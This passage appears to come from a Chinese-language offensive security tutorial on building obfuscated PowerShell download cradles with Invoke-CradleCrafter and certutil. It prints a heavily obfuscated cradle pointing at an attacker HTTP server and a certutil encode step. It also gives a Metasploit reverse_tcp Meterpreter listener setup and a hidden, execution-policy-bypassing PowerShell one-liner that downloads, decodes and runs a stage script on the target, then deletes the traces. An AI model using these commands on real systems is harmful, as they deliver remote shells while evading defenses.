[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument

Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache

Invoke-CradleCrafter\Memory\Certutil> ALL


Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

到这里应该会显示如下代码

```plain
Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://172.20.10.4/key.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://172.20.10.4/key.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

将混淆的代码保存到本地为`crt.txt`用`certutil`进行`encode`加密

```plain
certutil -encode crt.txt crt.cer
```

将`cer.cet`放入 http 服务器目录下，使用 msf 开启监听

```plain
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.10.11
lhost => 192.168.10.11
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
```

然后靶机执行如下命令即可获得反弹 session

```plain
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://172.20.10.4/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

关于 certutil + powershell 的实战食用方法这里推荐 Y4er 师傅的一篇文章： 
[极限环境使用 certutil+PowerShell 配合 Burp 快速落地文件](https://xz.aliyun.com/t/8345 "极限环境使用certutil+PowerShell配合Burp快速落地文件")

[](https://xzfile.aliyuncs.com/media/upload/picture/20220307152549-cff96bde-9de7-1.png)
